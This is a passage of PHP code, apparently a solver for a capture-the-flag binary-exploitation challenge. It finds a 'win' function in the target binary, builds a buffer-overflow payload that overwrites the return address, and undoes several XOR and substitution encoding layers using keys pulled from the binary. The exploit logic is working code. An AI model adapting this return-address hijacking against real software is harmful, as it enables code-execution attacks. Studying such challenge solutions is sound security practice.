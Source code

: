 ```php
		$offset = strpos($file, "\x5D\xC3", $offset) + 2;
	}

	/* Find win function */
	$offset = strpos($file, "\xC9\xC3", $offset) + 2; // main
	$offset = strpos($file, "\xC9\xC3", $offset) + 2; // win

	$payload  = str_repeat("A", 0x38);
	$payload .= pack("Q", 0x400000 + $offset);


	/* Decode keys */
	$key1 = unpack("c", $file[$f[0] + 0x30])[1]; // xor
	$key2 = unlut(substr($file, 0x00001060, 0x40)); // substitute
	$key3 = unpack("c", $file[$f[2] + 0x16])[1]; // add sub
	$key4 = unpack("c", $file[$f[3] + 0x30])[1]; // xor
	$key5 = unpack("c", $file[$f[4] + 0x30])[1]; // sub
	$key5 = "\xc2" === $file[$f[4] + 0x2F] ? $key5 : -$key5;
	$key6 = unlut(substr($file, 0x000010A0, 0x40)); // substitute
	$key7 = unpack("c", $file[$f[6] + 0x16])[1]; // add sub

	DEBUG && fprintf(STDERR, "key1: %02X\n", $key1);
	DEBUG && fprintf(STDERR, "key3: %02X\n", $key3);
	DEBUG && fprintf(STDERR, "key4: %02X\n", $key4);
	DEBUG && fprintf(STDERR, "key5: %02X\n", $key5);
	DEBUG && fprintf(STDERR, "key7: %02X\n", $key7);
	DEBUG && fprintf(STDERR, "memcpy\n%s", hexDump($payload));

	/* Undo encode7 */
	$tmp = str_pad("", 0x40);
	for($i = 0; $i < 0x40; $i++) {
		$idx = ($i + $key7) & 0x3F;
		$tmp[$i] = $payload[$idx];
	}
	$payload = $tmp;
	DEBUG && fprintf(STDERR, "encode%d\n%s", 7, hexDump($payload));

	/* Undo encode6 */
	$tmp = str_pad("", 0x40);
	for($i = 0; $i < 0x10; $i++) {
		for($j = 0; $j < 0x04; $j++) {
			$idx1 = $j + 4 * $i;
			$idx2 = $j + 4 * $key6[$i];
			$tmp[$idx1] = $payload[$idx2];
		}
	}
	$payload = $tmp;
	DEBUG && fprintf(STDERR, "encode%d\n%s", 6, hexDump($payload));

	/* Undo encode5 */
	for($i = 0; $i < 0x40; $i++) {
		$byte  = ord($payload[$i]);
		$byte -= $key5; // sometimes +, sometimes - ?
		$payload[$i] = chr(0xFF & $byte);
	}
	DEBUG && fprintf(STDERR, "encode%d\n%s", 5, hexDump($payload));

	/* Undo encode4 */
	for($i = 0; $i < 0x40; $i++) {
		$byte  = ord($payload[$i]);
		$byte ^= $key4;
		$payload[$i] = chr(0xFF & $byte);
	}
```